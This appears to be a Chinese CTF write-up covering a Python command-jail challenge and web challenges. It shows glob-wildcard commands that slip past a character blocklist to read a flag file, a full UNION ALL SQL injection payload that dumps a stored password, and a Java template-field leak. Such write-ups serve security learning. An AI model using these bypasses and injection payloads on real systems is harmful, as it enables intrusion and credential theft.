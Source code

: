 # Jail
### sansomega
```python
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()

```

没有过滤$(),数字,但是过滤了\\没法8进制执行
\* 可以构造出来flag.txt

`/*/*/*64 *` 会解析为/bin/base64 /bin/x86_64  flag.txt

---
base32!!!竟然有这个命令

`/*/*/????32 *.*`

另一个解法,使用diff3

`/*/????3 ./* ./???`

another
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240411222144.png)

### javajail1
```python
BANNED = ['import', 'class', 'Main', '{', '}']
```




# web
### one-shot
流程,new_session生成一个表(随机密码),search来匹配这个表里的字符且只能search一次,guess需要输入密码
```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
```
search的query参数存在sql注入
```bash
' UNION ALL SELECT substr(password, 1, 1) FROM table_id UNION ALL SELECT substr(password, 2, 1) FROM table_id UNION ALL SELECT substr(password, 3, 1) FROM table_id UNION ALL SELECT substr(password, 4, 1) FROM table_id UNION ALL SELECT substr(password, 5, 1) FROM table_id UNION ALL SELECT substr(password, 6, 1) FROM table_id UNION ALL SELECT substr(password, 7, 1) FROM table_id UNION ALL SELECT substr(password, 8, 1) FROM table_id UNION ALL SELECT substr(password, 9, 1) FROM table_id UNION ALL SELECT substr(password, 10, 1) FROM table_id UNION ALL SELECT substr(password, 11, 1) FROM table_id UNION ALL SELECT substr(password, 12, 1) FROM table_id UNION ALL SELECT substr(password, 13, 1) FROM table_id UNION ALL SELECT substr(password, 14, 1) FROM table_id UNION ALL SELECT substr(password, 15, 1) FROM table_id UNION ALL SELECT substr(password, 16, 1) FROM table_id UNION ALL SELECT substr(password, 17, 1) FROM table_id UNION ALL SELECT substr(password, 18, 1) FROM table_id UNION ALL SELECT substr(password, 19, 1) FROM table_id UNION ALL SELECT substr(password, 20, 1) FROM table_id UNION ALL SELECT substr(password, 21, 1) FROM table_id UNION ALL SELECT substr(password, 22, 1) FROM table_id UNION ALL SELECT substr(password, 23, 1) FROM table_id UNION ALL SELECT substr(password, 24, 1) FROM table_id UNION ALL SELECT substr(password, 25, 1) FROM table_id UNION ALL SELECT substr(password, 26, 1) FROM table_id UNION ALL SELECT substr(password, 27, 1) FROM table_id UNION ALL SELECT substr(password, 28, 1) FROM table_id UNION ALL SELECT substr(password, 29, 1) FROM table_id UNION ALL SELECT substr(password, 30, 1) FROM table_id UNION ALL SELECT substr(password, 31, 1) FROM table_id UNION ALL SELECT substr(password, 32, 1) FROM table_id ; --
```
返回所有password

### creative-login-page-challenge
登录/注册功能,登录成功会在cookie里加上name和一段加盐的hash校验

注册时可以用户名可以填入模板,获取字段名
```java
            String tUsername = template(username);

    private String template(String fmtStr) throws Exception {
        StringBuilder sb = new StringBuilder();
        while (fmtStr.contains("{{")) {
            int start = fmtStr.indexOf("{{") + 2;
            int end = fmtStr.indexOf("}}", start);
            if (end == -1) throw new Exception("Invalid Format String");
            sb.append(fmtStr, 0, start - 2);
            Field f = LoginpageApplication.class.getField(fmtStr.substring(start, end));
            if (f.getType().equals(String.class)) {
                sb.append(f.get(this));
            } else {
                throw new Exception("Field not found");
            }

            fmtStr = fmtStr.substring(end + 2);
        }
        // no format strings, no need.
        sb.append(fmtStr);
        return sb.toString();
    }
//给的字段
    private final static String SALT = BCrypt.gensalt();
    // Some fun things to include in your username/password!
    // TODO take from env cause yes
    public String flag = System.getenv("FLAG");
    public String randomNum = Integer.toString((int) (Math.random() * 100));
```
其中flag已被过滤
`            if (tUsername.contains(flag)) return "No flag >:( !";`
,只剩下randomNum可以
~~分析登录接口可知,用户名是否存在都返回Credentials wrong,但是状态码未修改,我们可以据此来获取randomNum的值~~
瞎扯,直接注册71用户不就行了,没办法判断
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-11   21:16